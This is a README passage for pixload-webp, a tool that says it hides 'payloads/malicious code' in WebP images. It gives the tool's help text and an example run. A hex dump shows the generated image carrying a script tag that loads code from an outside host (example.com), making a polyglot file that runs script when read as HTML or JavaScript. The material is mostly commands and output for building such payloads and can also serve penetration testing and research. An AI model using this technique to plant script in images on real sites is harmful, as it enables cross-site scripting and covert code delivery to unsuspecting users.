 ### pixload-webp

##### Help

```sh
$ pixload-webp --help
```

```
Usage: pixload-webp [OPTION]... FILE
Hide payloads/malicious code in WebP images.

Mandatory arguments to long options are mandatory for short options too.
  -P, --payload STRING   set payload for injection
  -v, --version          print version and exit
  -h, --help             print help and exit

Currently, there is no possibility to inject the payload into an existing
WebP image. Only the new (minimal) WebP image will be created and your
payload will be injected into. If the output FILE already exists, the
payload will be injected into the existing image, but this image will be
corrupted.
```

##### Example

```sh
$ pixload-webp payload.webp
```

```
........ WebP Payload Creator/Injector ........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.webp

[>] Injecting payload into payload.webp
[✔] Payload was injected successfully

payload.webp: RIFF (little-endian) data, Web/P image

00000000  52 49 46 46 2f 2a 00 00  57 45 42 50 56 50 38 4c  |RIFF/*..WEBPVP8L|
00000010  ff ff ff 00 2f 00 00 00  10 07 10 11 11 88 88 fe  |..../...........|
00000020  07 00 2a 2f 3d 31 3b 3c  73 63 72 69 70 74 20 73  |..*/=1;<script s|
00000030  72 63 3d 2f 2f 65 78 61  6d 70 6c 65 2e 63 6f 6d  |rc=//example.com|
00000040  3e 3c 2f 73 63 72 69 70  74 3e 3b                 |></script>;|
0000004b
```

See [pixload-webp(1)](https://github.com/chinarulezzz/pixload/blob/master/pixload-webp.1.pod) manual page for more information.
